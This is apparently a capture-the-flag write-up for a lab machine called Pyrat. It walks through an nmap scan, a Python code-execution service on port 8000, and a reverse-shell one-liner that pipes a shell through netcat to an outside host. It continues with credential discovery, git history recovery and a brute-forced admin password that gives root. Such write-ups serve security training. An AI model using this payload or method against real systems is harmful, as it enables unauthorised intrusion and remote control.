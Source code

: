 # Pyrat

### Pyrat
Initial scan shows port 22 and 8000 open

    p22,8000 -sV -sC -oN scan 10.10.0.182
    Nmap scan report for 10.10.0.182
    Host is up (0.052s latency).
    
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    |_http-server-header: SimpleHTTP/0.6 Python/3.11.2
    |_http-open-proxy: Proxy might be redirecting requests
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
    |     source code string cannot contain null bytes
    |   FourOhFourRequest, LPDString, SIPOptions: 
    |     invalid syntax (<string>, line 1)
    |   GetRequest: 
    |     name 'GET' is not defined
    |   HTTPOptions, RTSPRequest: 
    |     name 'OPTIONS' is not defined
    |   Help: 
    |_    name 'HELP' is not defined
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8000-TCP:V=7.94SVN%I=7%D=10/14%Time=670D487D%P=x86_64-pc-linux-gnu%
    SF:r(GenericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20d
    SF:efined\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain
    SF:\x20null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<s
    SF:tring>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20can
    SF:not\x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'
    SF:\x20is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\
    SF:x20not\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20stri
    SF:ng\x20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"
    SF:source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(He
    SF:lp,1B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"inval
    SF:id\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid
    SF:\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x2
    SF:0code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D
    SF:,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(
    SF:JavaRMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20by
    SF:tes\n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null
    SF:\x20bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\
    SF:x20null\x20bytes\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 8000 seems to be a minimal webserver written in python. However, from the scan, error messages such as

    "name 'GET' is not defined"
    "name 'OPTIONS' is not defined"
    "source code string cannot contain null bytes"
    "invalid syntax (<string>, line 1)"

Suggest to me that this connection interprets the input as python code directly, as these are the same error messages provided by the python language. Infact, if I try to execute a netcat connection to my machine, it actually works, like in the figure below:<br />
![image](https://github.com/user-attachments/assets/7ed9ee74-1411-43fd-a9cc-73df4300c489)<br />
We have RCE. Time to spawn a reverse shell; I used the following payload: `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 9999 >/tmp/f')`
![image](https://github.com/user-attachments/assets/75a3abb7-4c55-4013-9343-d44299ec0a49)<br />
Using linpeas on the target machine, it reveals some files inside `/opt`, which usually is empty:<br />
![image](https://github.com/user-attachments/assets/3440046d-d233-4944-96aa-9a957f5168a6)<br />
This directory contains a git project. Enumerating a bit the files inside this directory, I found a set of credentials:
![image](https://github.com/user-attachments/assets/d983c2f0-fef9-49bb-a398-90e3bebce124)<br />
`think:_TH1NKINGPirate$_`. So I logged on think's account using ssh. Further system enumeration(still using linpease) led me to this interesting email sent by "root" to "think":<br />
![image](https://github.com/user-attachments/assets/b5941b57-9cd2-4775-95a8-dabd28f959a4)<br />
So probably this RAT(Remote Administration Tool) the project contained in the /opt directory. However there's only a `.git` folder, which doesn't contain the code. In order to find the code, we need to restore the project to an older version, like in the figure below:<br />
![image](https://github.com/user-attachments/assets/48fbbf7a-c7de-4e91-be04-9f318edc9540)<br />
At this point I was stuck for a while, and decided to go back to the initial netcat connection on port 8000. Initially I saw that typing "admin" on the netcat connection, the server responded with "password:". So I created a python script to bruteforce the login (it can be found inside this folder). The password is `abc123`. And it gave me access to a full root shell:<br />
![image](https://github.com/user-attachments/assets/7cfbcc1d-1609-46d4-a529-4ef4b0f75b85)<br />


